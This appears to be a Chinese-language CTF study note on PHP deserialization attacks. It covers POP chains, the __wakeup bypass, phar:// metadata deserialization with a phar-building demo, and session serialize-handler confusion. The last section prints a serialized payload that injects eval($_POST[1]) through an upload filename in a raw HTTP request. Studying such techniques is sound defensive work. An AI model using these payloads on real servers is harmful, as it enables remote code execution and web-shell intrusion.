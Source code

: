 # php反序列化

## pop链的构造

### 基础

通过替换类中的变量来执行相同函数名字带有敏感操作的函数

所以找反序列化洞的时候一般可以重点关注两个魔术方法：`__wakeup()`(反序列化的初始化调用),`__destruct()`

当然wakeup是可以绕过的，具体可以看看



### 技巧

1.找到反序列化点2.寻找可利用的魔术方法(如`__destruct()`,`__wakeup()`)3.寻找可利用魔术方法调用函数

绕过`__wakeup()`:`CVE-2016-7124`

获取已经包含的文件：
get_included_files()
获取已经定义的类：
get_declared_classes()
加载所有类
__autoload()

## php原生类反序列化

### phar

 https://blog.zsxsoft.com/post/38?from=timeline&isappinstalled=0 

https://paper.seebug.org/680/

#### 原理

部分文件操作函数用phar伪协议读取phar文件会反序列化phar文件中的meta-data 部分的序列化内容

#### phar文件结构

- a **stub**
  可以理解为一个标志，格式为`xxxxxxxxx; __HALT_COMPILER();?>`，前面内容不限，但必须以`__HALT_COMPILER();?>`来结尾，否则phar扩展将无法识别这个文件为phar文件。

- a **manifest** describing the contents
  phar文件本质上是一种压缩文件，其中每个被压缩文件的权限,属性等信息都放在这部分。这部分还会以**序列化**的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方。

- the file **contents**
  被压缩文件的内容。

- [optional] a **signature** for verifying Phar integrity (phar file format only)

  签名，放在文件末尾

#### 影响函数

```php
fileatime|filectime|file_exists|file_get_contents|file_put_contents|file|filegroup|fopen|fileinode|filemtime|fileowner|fileperms|is_dir|is_executable|is_file|is_link|is_readable|is_writable|is_writeable|parse_ini_file|copy|unlink|stat|readfile|md5_file|filesize|mime_content_type
```

```
fileatime / filectime / filemtimestat / fileinode / fileowner / filegroup / filepermsfile / file_get_contents / readfile / fopen / file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is_writable / parse_ini_file / unlink / copy / include

exif_thumbnail / exif_imagetype / imageloadfont / imagecreatefrom
hash_hmac_file / hash_file / hash_update_file / md5_file / sha1_file

get_meta_tagsget_headers
getimagesize / getimagesizefromstring

finfo_file/finfo_buffer/mime_content_type
```



#### phar文件生成demo

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar,phar伪协议不用phar后缀
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub,只要后面部分为__HALT_COMPILER(); ?>就行,开头可以随意
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```



### 绕过对phar文件内容的限制



`phar://phar.phar.gz/test.txt`

`将phar文件压缩后便可以绕过文件限制`



## session的序列化引擎配置错误导致的命令执行

### 利用条件

1. php.ini中设置session.serialize_handler为php_serialize
2. 启动session
3. 某个网页的session.serialize_handler为php

### 原理

在php.ini中存在三项配置项：

```
session.save_path=""   --设置session的存储路径
session.save_handler="" --设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)
session.auto_start   boolen --指定会话模块是否在请求开始时启动一个会话,默认为0不启动
session.serialize_handler   string --定义用来序列化/反序列化的处理器名字。默认使用php
```

`session.serialize_handler`是用来设置session的序列话引擎的，除了默认的PHP引擎之外，还存在其他引擎，不同的引擎所对应的session的存储方式不相同。

- php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
- php:存储方式是，键名+竖线+经过serialize()函数序列处理的值
- php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值

我们这里主要关注php和php_serialize(php>5.5.4)

我们可以发现,如果我们存储用的引擎是php_serialize,而读取用的引擎是php时,我们可以构造如`$_SESSION['a']='|O:5:"OowoO":1:{s:4:"mdzz";s:16:"eval($_POST[1]);";}'`

,这个在文件中的存储为

```
a:1:{s:2:"en";s:43:"|O:5:"OowoO":1:{s:4:"mdzz";s:10:"phpinfo();";}
```

这样如果用php引擎解析的话,就不被理解成:键名为`a:1:{s:2:"en";s:43:"`，值为`O:5:"OowoO":1:{s:4:"mdzz";s:10:"phpinfo();";}`反序列化的结果,也就是一个对象

这样我们就成功的反序列化了

### 和它搭档的php配置



![image.png](https://i.loli.net/2019/10/11/8ajOXlMD9fybx6W.png)

> 当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据。所以可以通过Session Upload Progress来设置session。



eg.

```
POST /phpinfo.php HTTP/1.1
Host: web.jarvisoj.com:32784
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------168279961491
Content-Length: 1067
DNT: 1
Connection: close
Referer: http://127.0.0.1/
Cookie: PHPSESSID=d0vqrh2ejn9el54i1en9cnev43
Upgrade-Insecure-Requests: 1

-----------------------------168279961491
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123
-----------------------------168279961491
Content-Disposition: form-data; name="aaa"; filename='|O:5:"OowoO":1:{s:4:"mdzz";s:16:"eval($_POST[1]);";}'
Content-Type: text/html

aaaaaa
-----------------------------168279961491--
```

在本地测试发现filename和name 还有一些其他的会写入到session里

产生这种情况的html页面

```html
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

